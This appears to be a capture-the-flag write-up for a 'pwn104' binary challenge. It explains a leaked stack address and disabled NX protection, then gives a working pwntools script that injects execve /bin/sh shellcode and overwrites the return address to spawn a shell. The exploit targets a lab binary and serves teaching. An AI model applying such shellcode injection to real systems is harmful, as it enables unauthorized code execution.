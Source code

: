 ```
we can also see the protections around it, you can refer back to pwn103 above to see what this protections mean.

So interesting enough we can see that under NX, it is unknown, this could potentialy mean that we can execute shellcode on the stack. Running the binary may confirm this 

```
I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7ffe12e976e0
```
There are no interesting functions so we will not be dissassembling this, rather we can go through with our exploit

### Exploit

So we can see that the program gives us some address so we can maybe grab that and this location could be where we can execute shellcode 

Next we are going to need shellcode, so there are two ways to get shellcode. One way being using shellcraft which is a tool which generates shellcode, the other way is using the shellcode database. 

Here i am going to get one from the database [shellstrom](http://shell-storm.org/shellcode/files/shellcode-603.html)

Smooth, next we need to fill the buffer which will allow us to execute shellcode. 

```
from pwn import *

p = process("./pwn104.pwn104")
#p = remote(thm_ip, 9004)


p.recvuntil(b'at ')
output = p.recv()
print(output)
bufferlocation = p64(int(output, 16))
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

payload = shellcode
payload += b'A' * (88 - len(shellcode))
payload += bufferlocation

p.sendline(payload)
p.interactive()
```
You can use also use shellcraft to create your payload.
